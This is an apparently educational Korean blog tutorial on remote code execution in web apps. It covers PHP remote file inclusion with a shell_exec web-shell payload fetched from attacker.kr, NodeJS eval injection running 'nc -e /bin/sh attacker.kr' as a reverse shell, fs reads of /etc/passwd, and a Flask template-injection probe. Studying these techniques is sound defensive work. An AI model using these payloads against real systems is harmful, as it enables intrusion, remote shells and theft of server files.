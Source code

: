 ```yaml
---
emoji: 📣
title: Web Application RCE Case
author: Zer0Luck
date: '2021-12-25 05:00:00'
categories: 
tags: Tutorial Talk
---
```


# QuickStart
## Web Application RCE Case

### PHP
- File Inclusion, File upload, ...

### NodeJS
- Code Injection, Unserialize, ...

### Flask
- Server Side Template Injection, ...

## RCE Case1 #PHP

### File Inclusion
- php `include` 키워드는 `text/code/markup` 형식의 파일을 읽어와 php 파일의 내용을 다른 PHP 파일에 삽입할 수 있다.
```php
<?php
    include $_GET[file];
?>
```
- 예시로 공격 대상 서버에 `include`가 가능한 경우 RCE가 가능한 페이로드를 업로드하여 호출함으로 써 공격이 가능해진다.
**request**
```php
# > https://victim.kr/index.php?file=https://attacker.kr/payload.txt&cmd=id
```

**payload.txt**
```php
<?php
    echo shell_exec($_GET[cmd]);
?>
```

**response**
```php
uid=20080 gid=1001 groups=1001
```
- 공격자의 `payload` 데이터를 include 하였기 때문에 원하는 방향으로 수행할 수 있는 구조가 생긴다.
### File Inclusion technique

#### 맛있는 `include` 할 대상 파일
- `/etc/passwd` : 리눅스 계정 목록 [Local File]
- `/proc/self/maps` : 프로그램 메모리 덩보 [Local File]
- `/var/www/html/[payload.*]` : 코드를 실행할 수 있는 php 코드 [Local File]
- `https://attacker.kr/payload.txt` : 코드를 실행할 수 있는 php 코드 [Remote File]

#### 시도 해 볼 만한 함수
- `echo "data";` : 문자 출력
- `phpinfo();` : php 정보 출력
- `system("id")` : system 명령어 수행
- `passthru("id")` : passthru 명령어 수행
- `file_put_contents("/tmp/test.txt", "data")` : 파일 쓰기(생성)
- `file_get_contents("/tmp/test.txt")` : 파일 읽기


## RCE Case2 #NodeJS

### NodeJS Code Injection
**request**
```javascript
//> http://victim.kr/api/v1/data/require("child_process").exec("nc -e /bin/sh attacker.kr 8080")
```

**attacker server**
```javascript
# nc -lvp 8888
```
- 대상 서버상 내부적으로 처리하는 구간에서 `경로`,`쿼리`등의 데이터가 내부 javascript로 해석되어 실행되는 구간이 존재하는 경우 위와 같은 공격을 이용하여 RCE이 수행이 가능

**victim.kr 내부 구현**
```javascript
...
eval(data_input); // data_input은 위의 request에서 전달받은 데이터
...
```
- 대상 서버 내부 구현은 다음과 같이 입력 된 데이터가 `eval` api를 통한 문자열이 javascript로 해석되어 실행되는 구간으로 동작하기 때문

#### NodeJS Code Injection technique

#### **fs class**
- 공격시 대상 서버의 파일을 읽는 경우 `require('fs')` 모듈을 활용하여 파일 시스템(파일 읽기, 쓰기, 삭제)을 제어할 수 있으며 다양한 방식으로 활용된다.

**readdir()**
- fs class의 `readdir()`, `readdirSync()` 메서드를 통해 대상 서버의 디렉터리 내용을 나열할 수 있다. 후자가 동기식 버전 말고는 동일하다. 
``` javascript
var fs = require('fs');
fs.readdir('.').toString('utf8');
fs.readdir('..').toString('utf8');
```

**readFile()**
- 공격자는 앞서 서버 디렉토리 구조를 파악한 후 `readFile()`, `readFileSync()` 메서드를 활용하여 파일의 내용을 읽을 수 있다.
``` javascript
var fs = require('fs');
fs.readFile('/etc/passwd').toString('utf8');
```

**Child Process**
- 공격자는 `child_process` 모듈을 사용해 Node.js 에서 작식 프로세스를 생성하여 자식 프로세스로 `spawn(), fork(), exec(), execFile()` 등의 메서드를 실행할 수 있다. 
- `spawn()` 함수는 Stream 데이터를 반환하고 `exec()` 함수는 전체 버퍼 출력을 반환한다. 

#### **Ncat**
- 공격자는 앞서 페이로드를 구성한후 자신의 서버로 대상 서버를 연결하기 위해 Revers Shell을 설정하기 위해 Ncat를 활용한다.
- 
``` javascript
// > http://victim.kr/api/v1/data/require("child_process").exec("nc -e /bin/sh attacker.kr 8080")
// < nc -lvp 8888
```

## RCE Case3 #Flask/Jinja2

### Flask Server Side Template Injection
- Server Side Template Injection을 서버에서 임의 코드를 실행 할 수 있는 사용자 입력 값에 Template keyword를 삽입해서 Tempalte Engine에서 해당 입력 값을 기반으로 데이터를 렌더링되어 실행된다.

**victim.kr 내부 서버 구현**
```python
def index():
    return render_template_string(
        '<h1>{{ request.args.get("input") }}</h1>'
    )
```

**request**
``` python
# http://victim.kr/?input={{4*4}}
```

**response**
``` python
# > <h1>16</h1>
```
- 대상 내부 서버에서는 input 쿼리 값으로 request get 요청을 통해 입력 받아 `render_template_string` 메서드를 활용해 rednering되어 출력된다. `{{4*4}}`을 입력하여 SSTI 수행 시 템플릿 엔지이 해당 식을 해석하여 `16`을 반환한다.

```toc
```